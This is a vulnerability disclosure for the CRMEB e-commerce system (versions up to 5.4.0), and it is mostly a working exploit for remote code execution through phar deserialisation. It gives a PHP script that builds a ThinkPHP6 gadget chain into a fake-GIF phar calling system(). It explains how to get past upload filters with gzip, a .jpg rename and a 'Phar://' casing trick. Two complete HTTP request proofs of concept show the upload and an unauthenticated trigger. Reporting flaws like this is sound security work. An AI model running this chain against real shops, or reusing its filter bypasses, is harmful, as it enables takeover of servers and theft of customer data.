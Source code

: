 BUG_Author:

Rui Jie

Affected version:

Version<=5.4.0

Vendor:
https://www.crmeb.com/

CRMEB Standard Edition New Retail Social E-commerce System

Software:
https://gitee.com/ZhongBangKeJi/CRMEB

https://github.com/crmeb/CRMEB


Vulnerability File:
app/api/controller/v1/PublicController.php
app/common.php

Description:
 A vulnerability categorised as critical has been identified in CRMEB. This affects the put_image section of the file common.php. Manipulation of the image/code parameter results in phar deserialisation enabling the RCE
 
 It's a complicated process.
 
 This system is based on thinkphp6 again, I can get the available deserialisation chain through code audit
 
```php
 <?php  
  
namespace think\model\concern;  
  
trait Attribute  
{  
    private $data = ["evil_key" => "calc"];  
    private $withAttr = ["evil_key" => "system"];  
}  
  
namespace think;  
  
abstract class Model  
{  
    use model\concern\Attribute;  
    private $lazySave;  
    protected $withEvent;  
    private $exists;  
    private $force;  
    protected $table;  
    function __construct($obj = '')  
    {  
        $this->lazySave = true;  
        $this->withEvent = false;  
        $this->exists = true;  
        $this->force = true;  
        $this->table = $obj;  
    }  
}  
namespace app\model\product\product;  
  
use crmeb\traits\ModelTrait;  
use think\Model;  
  
  
class StoreProductCate extends Model  
{  
}  
  
$a = new StoreProductCate();  
$b = new StoreProductCate($a);  
echo urlencode(serialize($b));  
$phar = new \Phar('x.phar');  
$phar->stopBuffering();  
$phar->setStub( 'GIF89a'.'<?php __HALT_COMPILER();?>');  
$phar->addFromString('test.phar', 'test');  
$phar->setMetadata($b);  
$phar->stopBuffering();
```
This generates a phar file containing the available serialisations, I try to pop up the calculator locally
After any user has logged in, we can try to upload this file as an avatar, but there are some filters here

![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407122332062.png)
Both the suffix and the file content are restricted here
We can try to gzip the phar file to bypass the content detection, modify the extension to .jpg renamed 123.jpg

I'll put 123.jpg here
![123.jpg](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407130004529.jpg)

POC1

Note that here I'm using yakit's tags directly to read the contents of the local file 123.jpg before uploading it

```POST /api/upload/image HTTP/1.1
Host: 127.0.0.21
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3eJTGWU51qa6ag3o
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Sec-Fetch-Dest: empty
Referer: http://127.0.0.21/pages/users/user_info/index
Origin: http://127.0.0.21
Accept-Encoding: gzip, deflate, br, zstd
Cookie: cb_lang=zh-cn; PHPSESSID=84e2385486352b76586e45157fd93cda; WS_ADMIN_URL=ws://127.0.0.21/notice; WS_CHAT_URL=ws://127.0.0.21/msg; XDEBUG_SESSION=11675
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126", "Google Chrome";v="126"
Sec-Fetch-Mode: cors
Authori-zation: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJwd2QiOiJkNDFkOGNkOThmMDBiMjA0ZTk4MDA5OThlY2Y4NDI3ZSIsImlzcyI6IjEyNy4wLjAuMjEiLCJhdWQiOiIxMjcuMC4wLjIxIiwiaWF0IjoxNzIwNzc0NDU2LCJuYmYiOjE3MjA3NzQ0NTYsImV4cCI6MTcyMzM2NjQ1NiwianRpIjp7ImlkIjoxLCJ0eXBlIjoiYXBpIn19.LeWiJQ-aB4EqFsXuWEur2iNuybXLyLzusTepZC896Gg
Sec-Fetch-Site: same-origin
Content-Length: 1437

------WebKitFormBoundary3eJTGWU51qa6ag3o
Content-Disposition: form-data; name="filename"

pics
------WebKitFormBoundary3eJTGWU51qa6ag3o
Content-Disposition: form-data; name="pics"; filename="123.jpg"
Content-Type: image/jpeg

{{file(D:\\123.jpg)}}
------WebKitFormBoundary3eJTGWU51qa6ag3o--

```
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407130007396.png)


You can get the location of the uploaded image
For example, here it is `http://127.0.0.21/uploads/store/comment/20240713/9bcb28a14962bb8fb64b0652d2212ef4.jpg`
Now we can trigger it with the  `put_image` method in app/common.php(This is an unauthorised interface)
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407122345869.png)
There is a filter on phar://, which we can bypass with Phar://.
The readfile function will trigger the phar deserialisation implementation rce
POC2
```
POST /api/image_base64 HTTP/1.1
Host: 127.0.0.21
Cookie: cb_lang=zh-cn; PHPSESSID=c3db7bedde04b37c0bc6a5699dbde774
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Referer: http://crmeb.cc//api/image_base64
Accept-Language: zh-CN,zh;q=0.9
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Cache-Control: max-age=0
Content-Length: 53

{"image":"Phar://./uploads/store/comment/20240713/9bcb28a14962bb8fb64b0652d2212ef4.jpg","code":""}
```
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407122354438.png)

![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407130009247.png)

However, it should be noted that it uses the CacheService::remember method to try to get the Base64 encoding of the $imageUrl from the cache, which should be changed after the first execution

This means you may need to upload once, trigger once.

Now we can execute any command to implement RCE！
